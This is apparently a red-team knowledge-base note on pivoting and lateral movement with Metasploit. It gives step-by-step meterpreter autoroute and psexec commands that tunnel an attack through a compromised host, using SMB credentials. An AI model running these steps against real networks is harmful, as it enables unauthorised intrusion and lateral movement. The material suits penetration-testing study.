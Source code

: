 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - metasploit-framework
  - cross-platform
credits:
  - Matthew Toussain
---
```

# Metasploit

> [!NOTE]
> This can work even if the compromised system is not a Windows operating system as long the session type is `meterpreter` payload.

Make the `meterpreter` connection act as a **p2p (peer-to-peer)** without requiring to use SMB namepipe or bind implant callbacks. Assuming you've gained a initial access, add a rule to route traffic.

```
meterpreter > run post/multi/manage/autoroute subnet=<subnet> netmask=/24
```

In this demonstration, we'll be using #psexec to exploit the target to pivot off from the compromised machine. Set `ReverseListenerComm` with a session ID. This will tunnel the `meterpreter` session.

```
meterpreter > background

msf exploit(windows/smb/psexec) > set ReverseListenerComm <session_ID>
```

Then set the IP address and port of the computer that's compromised.

```
msf exploit(windows/smb/psexec) > set lhost <pivot_IP>

msf exploit(windows/smb/psexec) > set lport <pivot_PORT>
```

Exploit the target.

```
msf exploit(windows/smb/psexec) > run rhosts=<target_IP> smbuser=<username> smbpass=<password>
```

You can list the `meterpreter` sessions to see that it is pivoting off from a compromised system.

```
meterpreter > background

msf exploit(windows/smb/psexec) > sessions -l
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Pivoting and Lateral Movement/Pivot/Cross Platform/SOCKS Proxy/C2 Frameworks/Metasploit]]

### Matthew Toussain

- [Matthew Toussain: Tactics Tuesday | Mass Meterpreter Single Channel](https://www.youtube.com/watch?v=IsrWJL0gIlg)